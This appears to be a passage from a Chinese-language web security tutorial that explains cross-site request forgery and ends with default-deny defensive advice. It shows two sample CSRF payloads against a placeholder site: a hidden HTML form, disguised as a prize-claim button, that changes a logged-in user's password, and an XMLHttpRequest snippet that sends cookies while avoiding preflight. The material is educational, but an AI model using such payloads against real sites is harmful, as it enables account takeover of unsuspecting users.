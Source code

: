 
### CSRF 攻击示例（仅仅用于测试）

对于安全问题，往往是需要知己知彼，才能有所准备。下面是一些 CSRF 攻击中的示例。
``` html
<iframe >
  // 目标网站
  <form method="post" action="https://demodexx.com/modify-password">
     // 通过接口分析得到对方的字段名
     // 设置攻击者想要的新密码
     <input name="password" value="123456">
     <input type="button" value="点击领取 100万大奖">
  </form>
</iframe>
```

当用户进入一个攻击者控制的源，在隐藏的表单中诱导点击提交表单，这个时候，会自动携带 demodexx 的 cookie 进行提交，如果对方处于登录态，密码就直接被修改了。

通过样式伪装的表单是常用的手段，它比 ajax 请求有几个优势，第、兼容性问题小，第二、避开跨域[预检请求](https://developer.mozilla.org/zh-CN/docs/Glossary/Preflight_request)。


下面是 ajax 模拟示例，Content-Type 的值限于三者之一：text/plain、multipart/form-data、application/x-www-form-urlencoded 就不会有预检请求


``` javascript

const x = new XMLHttpRequest();
x.open('POST', 'url')
x.withCredentials = true // 允许携带 cookie
x.responseType='application/x-www-form-urlencoded';
const d = new FormData()
d.append('password', '12345')
x.send(d)

```

### 结

很多跨域安全问题是由于浏览器 “默认许可” 这一不成文的规定带来的，之所以这样做，也许是基于开放互通的 web 思维，或者浏览器厂商为了占据更多市场而提供更开放自由的行为。

无论如何，对于开发者，前端资源的读、写权限，不该信任其他第三方源，后台服务默认不信任任何请求（包括自己的域）。用一种默认拒绝的心态处理一切安全问题。







